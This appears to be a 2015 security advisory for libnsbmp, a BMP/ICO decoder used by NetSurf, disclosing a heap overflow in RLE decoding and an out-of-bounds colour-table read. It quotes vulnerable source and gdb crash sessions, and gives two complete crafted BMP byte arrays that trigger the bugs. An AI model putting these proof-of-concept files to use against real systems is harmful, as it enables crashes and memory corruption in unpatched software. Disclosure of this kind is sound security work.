 #+title: libnsbmp: heap overflow (CVE-2015-7508) and out-of-bounds read (CVE-2015-7507)
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com

* Overview

Libnsbmp[1] is a decoding library for BMP and ICO files.
It is primarily developed and used as part of the NetSurf project.

As of version 0.1.2, libnsbmp is vulnerable to a heap overflow
(CVE-2015-7508) and an out-of-bounds read (CVE-2015-7507).


* CVE-2015-7508

libnsbmp expects that the user-supplied ~bmp_bitmap_cb_create~ callback
allocates enough memory to accommodate for ~bmp->width * bmp->height *
4~ bytes.  However, due to the way ~pixels_left~ is calculated, the last
row of run-length encoded data may expand beyond the end of
~bmp->bitmap~, resulting in a heap overflow.


src/libnsbmp.c #951..1097:
#+begin_src c
static bmp_result bmp_decode_rle(bmp_image *bmp, uint8_t *data, int bytes, int size) {
[...]
    swidth = bmp->bitmap_callbacks.bitmap_get_bpp(bmp->bitmap) * bmp->width;
    top = bmp->bitmap_callbacks.bitmap_get_buffer(bmp->bitmap);
[...]
    do {
[...]
        length = *data++;
        if (length == 0) {
[...]
                /* 00 - NN means escape NN pixels */
                if (bmp->reversed) {
                    pixels_left = (y + 1) * bmp->width - x;
                    scanline = (void *)(top + (y * swidth));
                } else {
                    pixels_left = (bmp->height - y + 1) * bmp->width - x;
                    scanline = (void *)(bottom - (y * swidth));
                }
                if (length > pixels_left)
                    length = pixels_left;
                if (data + length > end)
                    return BMP_INSUFFICIENT_DATA;
[...]
        } else {
            /* NN means perform RLE for NN pixels */
            if (bmp->reversed) {
                pixels_left = (y + 1) * bmp->width - x;
                scanline = (void *)(top + (y * swidth));
            } else {
                pixels_left = (bmp->height - y + 1) * bmp->width - x;
                scanline = (void *)(bottom - (y * swidth));
            }
            if (length > pixels_left)
                length = pixels_left;
[...]
                pixel2 = *data++;
                pixel = bmp->colour_table[pixel2 >> 4];
                pixel2 = bmp->colour_table[pixel2 & 0xf];
                for (i = 0; i < length; i++) {
                    if (x >= bmp->width) {
                        x = 0;
                        if (++y > bmp->height)
                            return BMP_DATA_ERROR;
                        scanline -= bmp->width;
                    }
                    if ((i & 1) == 0)
                        scanline[x++] = pixel;
                    else
                        scanline[x++] = pixel2;
                }
            }
        }
    } while (data < end);
[...]
}
#+end_src


Using NetSurf as an example:

#+begin_src sh
~/netsurf-all-3.3/netsurf$ gdb -x heap.py --args ./nsgtk heap.bmp
[...]
heap overfow: pix: 0xff999999 ptr: 0x7fffe29fefed, end of buf: 0x7fffe29fefec (+1)
heap overfow: pix: 0xff999999 ptr: 0x7fffe29fefef, end of buf: 0x7fffe29fefec (+3)
heap overfow: pix: 0xff999999 ptr: 0x7fffe29feff1, end of buf: 0x7fffe29fefec (+5)

Program received signal SIGSEGV, Segmentation fault.
0x00000000005183e4 in bmp_decode_rle (bmp=0xda9ff0, data=0xdb9e24 'A' <repeats 23 times>, bytes=157, size=4) at src/libnsbmp.c:1091
1091                          scanline[x++] = pixel2;
(gdb)
#+end_src


heap.py:
#+begin_src python
class Breakpoint(gdb.Breakpoint):
    def stop(self):
        top = get_hex("top")
        width = get_hex("bmp->width")
        height = get_hex("bmp->height")
        bpp = get_hex("bmp->bpp")
        x = get_hex("x")
        scanline = get_hex("scanline")
        pixel2 = get_hex("pixel2")

        cur = scanline + x
        end = top + width * height * bpp
        if cur > end:
            print("heap overfow: pix: 0x%x ptr: 0x%x, end of buf: 0x%x (+%d)" %
                  (pixel2, cur, end, cur - end))
        return False

def get_hex(arg):
    res = gdb.execute("print/x %s" % arg, to_string=True)
    x = res.split(" ")[-1].strip()
    return int(x, 16)

Breakpoint("netsurf-all-3.3/libnsbmp/src/libnsbmp.c:1091")

gdb.execute("run")
#+end_src


heap.bmp:
#+begin_src c
unsigned char heap[] = {
    /* bmp_analyse() */
    0x42, 0x4d,             /* BM */
    0x41, 0x00, 0x00, 0x40, /* bmp size */
    0x00, 0x00,             /* reserved */
    0x00, 0x00,             /* reserved */
    0x00, 0x00, 0x00, 0x00, /* bmp->bitmap_offset */

    /* bmp_analyse_header() */
    0x6c, 0x00, 0x00, 0x00, /* header_size */
    0xff, 0x7f, 0x00, 0x00, /* width */
    0xf7, 0xff, 0xff, 0xff, /* height */
    0x01, 0x00,             /* colour planes */
    0x04, 0x00,             /* bmp->bpp */
    0x02, 0x00, 0x00, 0x00, /* bmp->encoding */
    0x04, 0x00, 0x00, 0x00, /* size of bitmap */
    0x41, 0x41, 0x00, 0x00, /* horizontal resolution */
    0x41, 0x41, 0x00, 0x00, /* vertical resolution */
    0x01, 0x00, 0x00, 0x00, /* bmp->colours */
    0x00, 0x00, 0x00, 0x00, /* number of important colours */
    0x41, 0x41, 0x41, 0x41, /* mask identifying bits of red component */
    0x00, 0x00, 0x00, 0x00, /* mask identifying bits of green component */
    0x00, 0x00, 0x00, 0x00, /* mask identifying bits of blue component */

    /*
     * NOTE: the first two bytes of the alpha mask are used in the
     * expansion of the last "line".
     *
     * 0xff = the number of bytes to expand,
     * 0x00 = the pixel which, combined with a bitwise AND against 0xf,
     *        is used to dereference a (potentially) suiting "real"
     *        pixel in bmp->colour_table.  Since bmp->colours is
     *        specified as 1, we want this to be 0.  No bounds checking
     *        is done and as such libnsbmp may be induced to read from
     *        bmp->colour_table[out_of_bounds_index] (CVE-2015-7507)
     */
    0xff, 0x00, 0x41, 0x41, /* mask identifying bits of alpha component */

    0x41, 0x41, 0x41, 0x41, /* color space type */
    0x41, 0x41, 0x41, 0x41, /* x coordinate of red endpoint */
    0x41, 0x41, 0x41, 0x41, /* y coordinate of red endpoint */
    0x41, 0x41, 0x41, 0x41, /* z coordinate of red endpoint */
    0x41, 0x41, 0x41, 0x41, /* x coordinate of green endpoint */
    0x41, 0x00, 0x41, 0x41, /* y coordinate of green endpoint */
    0x41, 0x41, 0x41, 0x41, /* z coordinate of green endpoint */
    0x41, 0x41, 0x41, 0x41, /* x coordinate of blue endpoint */
    0x41, 0x41, 0x41, 0x41, /* y coordinate of blue endpoint */
    0x41, 0x41, 0x41, 0x41, /* z coordinate of blue endpoint */
    0x41, 0x41, 0x41, 0x41, /* gamma red coordinate scale value */
    0x41, 0x41, 0x41, 0x41, /* gamma green coordinate scale value */
    0x41, 0x41, 0x41, 0x41, /* gamma blue coordinate scale value */

    /*
     * NOTE: this is what will be expanded on the last "line"
     */
    0x99, 0x99, 0x99,       /* bmp->colour_table[0] */

    0x41, 0x41, 0x41, 0x41,
    0x41, 0x41, 0x41, 0x41,
    0x41, 0x41, 0x41, 0x41,
    0x41, 0x41, 0x41, 0x41,
    0x41, 0x41, 0x41, 0x41,
    0x41, 0x41, 0x41, 0x41,
    0x41, 0x41, 0x41, 0x41,
    0x41, 0x41, 0x41, 0x41,
};
#+end_src


* CVE-2015-7507

An out-of-bounds read may occur in libnsbmp due to a lack of boundary
checking before dereferencing ~bmp->colour_table~ in ~bmp_decode_rgb()~
and ~bmp_decode_rle()~ with an index based on a user-supplied value.

src/libnsbmp.c #306..558:
#+begin_src c
static bmp_result bmp_analyse_header(bmp_image *bmp, uint8_t *data) {
[...]
    header_size = read_uint32(data, 0);
[...]
    if (header_size == 12) {
[...]
        bmp->bpp = read_uint16(data, 10);
        /**
         * The bpp value should be in the range 1-32, but the only
         * values considered legal are:
         * RGB ENCODING: 1, 4, 8, 16, 24 and 32
         */
        if ((bmp->bpp != 1) && (bmp->bpp != 4) &&
                (bmp->bpp != 8) &&
                (bmp->bpp != 16) &&
                (bmp->bpp != 24) &&
                (bmp->bpp != 32))
            return BMP_DATA_ERROR;
        bmp->colours = (1 << bmp->bpp);
        palette_size = 3;
    } else if (header_size < 40) {
        return BMP_DATA_ERROR;
    } else {
[...]
        bmp->colours = read_uint32(data, 32);
        if (bmp->colours == 0)
            bmp->colours = (1 << bmp->bpp);
        palette_size = 4;
    }
[...]
    if (bmp->bpp < 16) {
[...]
        /* create the colour table */
        bmp->colour_table = (uint32_t *)malloc(bmp->colours * 4);
        if (!bmp->colour_table)
            return BMP_INSUFFICIENT_MEMORY;
        for (i = 0; i < bmp->colours; i++) {
            bmp->colour_table[i] = data[2] | (data[1] << 8) | (data[0] << 16);
            if (bmp->opaque)
                bmp->colour_table[i] |= (0xff << 24);
            data += palette_size;
            bmp->colour_table[i] = read_uint32((uint8_t *)&bmp->colour_table[i],0);
        }
    }
[...]
}
#+end_src


src/libnsbmp.c #951..1097:
#+begin_src c
static bmp_result bmp_decode_rle(bmp_image *bmp, uint8_t *data, int bytes, int size) {
[...]
    do {
[...]
        length = *data++;
        if (length == 0) {
[...]
            } else {
                /* 00 - NN means escape NN pixels */
[...]
                if (size == 8) {
[...]
                        scanline[x++] = bmp->colour_table[(int)*data++];
                    }
                } else {
[...]
                        if ((i & 1) == 0) {
                            pixel = *data++;
                            scanline[x++] = bmp->colour_table
                                    [pixel >> 4];
                        } else {
                            scanline[x++] = bmp->colour_table
                                    [pixel & 0xf];
                        }
                    }
[...]
            }
        } else {
            /* NN means perform RLE for NN pixels */
[...]
            if (size == 8) {
                pixel = bmp->colour_table[(int)*data++];
[...]
            } else {
                pixel2 = *data++;
                pixel = bmp->colour_table[pixel2 >> 4];
                pixel2 = bmp->colour_table[pixel2 & 0xf];
[...]
                }
            }
        }
    } while (data < end);
[...]
}
#+end_src


src/libnsbmp.c #844..893:
#+begin_src c
static bmp_result bmp_decode_rgb(bmp_image *bmp, uint8_t **start, int bytes) {
[...]
    uint8_t bit_shifts[8];
    uint8_t ppb = 8 / bmp->bpp;
    uint8_t bit_mask = (1 << bmp->bpp) - 1;
    uint8_t cur_byte = 0, bit, i;

    for (i = 0; i < ppb; i++)
        bit_shifts[i] = 8 - ((i + 1) * bmp->bpp);
[...]
    /* Determine transparent index */
    if (bmp->limited_trans)
        bmp->transparent_index = bmp->colour_table[(*data >> bit_shifts[0]) & bit_mask];

    for (y = 0; y < bmp->height; y++) {
[...]
        for (x = 0; x < bmp->width; x++) {
            if (bit >= ppb) {
                bit = 0;
                cur_byte = *data++;
            }
            scanline[x] = bmp->colour_table[(cur_byte >> bit_shifts[bit++]) & bit_mask];
[...]
        }
    }
    *start = data;
    return BMP_OK;
}
#+end_src


Another NetSurf example:

#+begin_src sh
~/netsurf-all-3.3/netsurf$ gdb --args ./nsgtk oob.bmp
[...]
(gdb) b netsurf-all-3.3/libnsbmp/src/libnsbmp.c:531
Breakpoint 1 at 0x516a3e: file src/libnsbmp.c, line 531.
(gdb) b netsurf-all-3.3/libnsbmp/src/libnsbmp.c:869
Breakpoint 2 at 0x5179bb: file src/libnsbmp.c, line 869.
(gdb) b netsurf-all-3.3/libnsbmp/src/libnsbmp.c:886
Breakpoint 3 at 0x517aab: file src/libnsbmp.c, line 886.
(gdb) r
[...]
Breakpoint 1, bmp_analyse_header (bmp=0xdadc90, data=0xdb9e6a "\377\377\377") at src/libnsbmp.c:531
531         bmp->colour_table = (uint32_t *)malloc(bmp->colours * 4);
(gdb) p bmp->colours * 4
$1 = 4
(gdb) c
[...]
Breakpoint 3, bmp_decode_rgb (bmp=0xdadc90, start=0x7fffffffbff0, bytes=4) at src/libnsbmp.c:886
886         scanline[x] = bmp->colour_table[(cur_byte >> bit_shifts[bit++]) & bit_mask];
(gdb) p (cur_byte >> bit_shifts[bit++]) & bit_mask
$2 = 255
(gdb)
#+end_src


oob.bmp:
#+begin_src c
unsigned char bmp[] = {
    /* bmp_analyse() */
    0x42, 0x4d,             /* BM */
    0x7e, 0x00, 0x00, 0x00, /* bmp size */
    0x00, 0x00,             /* reserved */
    0x00, 0x00,             /* reserved */
    0x7a, 0x00, 0x00, 0x00, /* bmp->bitmap_offset */

    /* bmp_analyse_header() */
    0x6c, 0x00, 0x00, 0x00, /* header_size */
    0x01, 0x00, 0x00, 0x00, /* width */
    0x01, 0x00, 0x00, 0x00, /* height */
    0x01, 0x00,             /* colour planes */
    0x08, 0x00,             /* bmp->bpp */
    0x00, 0x00, 0x00, 0x00, /* bmp->encoding */
    0x00, 0x00, 0x00, 0x00, /* size of bitmap */
    0x00, 0x00, 0x00, 0x00, /* horizontal resolution */
    0x00, 0x00, 0x00, 0x00, /* vertical resolution */
    0x01, 0x00, 0x00, 0x00, /* bmp->colours */
    0x00, 0x00, 0x00, 0x00, /* number of important colours */
    0x00, 0x00, 0x00, 0x00, /* mask identifying bits of red component */
    0x00, 0x00, 0x00, 0x00, /* mask identifying bits of green component */
    0x00, 0x00, 0x00, 0x00, /* mask identifying bits of blue component */
    0x00, 0x00, 0x00, 0x00, /* mask identifying bits of alpha component */
    0x00, 0x00, 0x00, 0x00, /* color space type */
    0x00, 0x00, 0x00, 0x00, /* x coordinate of red endpoint */
    0x00, 0x00, 0x00, 0x00, /* y coordinate of red endpoint */
    0x00, 0x00, 0x00, 0x00, /* z coordinate of red endpoint */
    0x00, 0x00, 0x00, 0x00, /* x coordinate of green endpoint */
    0x00, 0x00, 0x00, 0x00, /* y coordinate of green endpoint */
    0x00, 0x00, 0x00, 0x00, /* z coordinate of green endpoint */
    0x00, 0x00, 0x00, 0x00, /* x coordinate of blue endpoint */
    0x00, 0x00, 0x00, 0x00, /* y coordinate of blue endpoint */
    0x00, 0x00, 0x00, 0x00, /* z coordinate of blue endpoint */
    0x00, 0x00, 0x00, 0x00, /* gamma red coordinate scale value */
    0x00, 0x00, 0x00, 0x00, /* gamma green coordinate scale value */
    0x00, 0x00, 0x00, 0x00, /* gamma blue coordinate scale value */
    0xff, 0xff, 0xff, 0x00  /* bmp->colour_table[0] */
};
#+end_src


* Solution

Both vulnerabilities are fixed in git HEAD[2].


* Footnotes

[1] http://www.netsurf-browser.org/projects/libnsbmp/

[2] http://source.netsurf-browser.org/libnsbmp.git/
